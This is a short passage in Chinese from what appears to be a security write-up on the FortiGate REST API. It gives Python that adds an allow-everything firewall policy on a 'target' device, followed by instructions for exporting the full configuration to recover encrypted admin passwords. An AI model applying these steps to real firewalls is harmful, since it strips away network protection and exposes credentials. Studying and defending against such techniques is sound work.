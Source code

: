 #2.添加防火墙规则

需要访问`/api/v2/cmdb/firewall/policy`，发送json数据

Python示例代码如下：

```
add_j = {
    "name":"policy1",
    "srcintf":[
        {
            "name":"port1",
            "q_origin_key":"port1"
        }
    ],
    "dstintf":[
        {
            "name":"port1",
            "q_origin_key":"port1"
        }
    ],
    "action":"accept",
    "srcaddr":[
        {
            "name":"all",
            "q_origin_key":"all"
        }
    ],
    "dstaddr":[
        {
            "name":"all",
            "q_origin_key":"all"
        }
    ],
    "schedule":"always",
    "service":[
        {
            "name":"ALL",
            "q_origin_key":"ALL"
        }
    ],
    "nat":"enable",
}
r = requests.post(target + "/api/v2/cmdb/firewall/policy", headers=headers, json=add_j, verify=False)
print(r.text)
```

### 3.导出所有配置

通过访问`/api/v2/cmdb/system/admin`导出用户信息时，password项被加密，格式为`"password":"ENC XXXX"`

这里可通过备份功能导出所有配置，获得加密的用户口令，访问位置为`/api/v2/monitor/system/config/backup?destination=file&scope=global`
